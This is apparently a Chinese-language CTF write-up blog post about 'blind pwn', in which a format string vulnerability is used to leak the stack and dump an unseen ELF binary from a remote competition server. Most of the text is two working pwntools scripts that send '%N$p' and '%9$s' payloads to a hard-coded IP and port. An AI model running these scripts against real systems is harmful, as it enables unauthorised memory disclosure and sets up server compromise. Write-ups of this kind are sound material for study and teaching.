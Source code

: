 ```yaml
---
title: Dump ELF With Format String Vulnerability
date: 2017-06-04 23:25:37
categories: pwn
---
```


# 使用格式化串攻击来dump服务器上的程序
之前一直以为fmt能泄漏的的就是canary了，直到这次pwnhub遇到没有给样本程序的pwn比赛。这里先泄漏程序，再去分析程序写exp，拿到服务器权限。
<!-- more -->
> - by hook

## blind pwn

只给了一个远程地址`54.223.254.123:701`,连接后发现只是简单的输入输出交互，测试%p发现是64位的环境。

## 信息泄漏
### <1>. 尝试固定地址泄漏
先写exp尝试泄漏固定地址处的内容，发现并没有拿到程序头部'ELF'标示字符串，怀疑是开启了PIE，导致了程序映射的地址都是随机的。


### <2>. 栈信息泄漏
这里开始泄漏栈信息，来推测出程序的加载地址。

```
#!/usr/bin/python

from pwn import *
from binascii import *

#64bit

f = open('./stack_info.txt', 'w')

index = 0x1
while index < 220:
    try: 
        p = remote("54.223.254.123", 701)
        p.recvuntil('something:')
        payload = '%'+str(index)+'$#p'
        p.sendline(payload)
        p.recvuntil('interesting:')
        result_str = p.recv()
        if result_str == '(nil)':
            result_str = '0x0'
        resstr = '{:016x}'.format(int(result_str, 16))
        f.write(resstr+'\n')
        index += 1
    except Exception:
        print("index = " + str(index))
        log.warning("got exception...", exc_info = sys.exc_info())
        break
f.close()
```

从返回的栈信息推测程序是加载在`0x557a143d0000`附近
经反复测试后得到程序是加载在`0x557a143d2000`处。
`（这里地址为什么会固定我也没明白，但他人说是因为它虽然开了PIE, 但没开ASLR, 导致了PIE的功能缺失，地址固定下来了）`

### <3>. 格式化偏移地址确定
根据%p来确定偏移量

## <4>. dump ELF
接着从上文得到的地址处开始dump ELF

```
#!/usr/bin/python

# -*- coding: utf-8 -*-

from pwn import *
def leakELF(addr):
    p = None
    for i in range(5):
        try:
            p = remote("54.223.254.123", 701, timeout=1)
            payload = "aaaabb__%9$s__EN" + p64(addr)
            #if ("\x0a" in payload) or ("\x00" in payload):
            #    log.warning("newline in payload!")
            #    return "\xff"
            p.recvuntil('something:')
            p.sendline(payload)
            p.recvuntil('interesting:')
            data2 = p.recv()
            log.info(hexdump(data2))
            if data2:
                fr = data2.find("bb__") + 4
                to = data2.find("__EN")
                res = data2[fr:to]
                if res == "":
                    return "\x00"
                else:
                    return res
            return "\xff"
        except KeyboardInterrupt:
            raise
        except EOFError:
            log.debug("got EOF for leaking addr 0x{:x}".format(addr))
            pass
        except Exception:
            log.warning("got exception...", exc_info = sys.exc_info())
        finally:
            if p:
                p.close()
    return "\xff"

f = open("dumpFile", "wb")
base = 0x557a143d2000
leaked = ""
while len(leaked) < 8300:
    address = base + len(leaked)
    tmp = leakELF(address)
    leaked += tmp
    log.info(hexdump(leaked))
    with open("nomoreblind-binary", "wb") as f:
        f.write(leaked)
```
![](/images/Dump ELF With Format String Vulnerability/dumpELFs.gif)

## 程序分析
可以看到dump出的程序可以正常分析，接着就是分析漏洞，编写exp，获取服务器shell了。
![](/images/Dump ELF With Format String Vulnerability/leakELF.png)


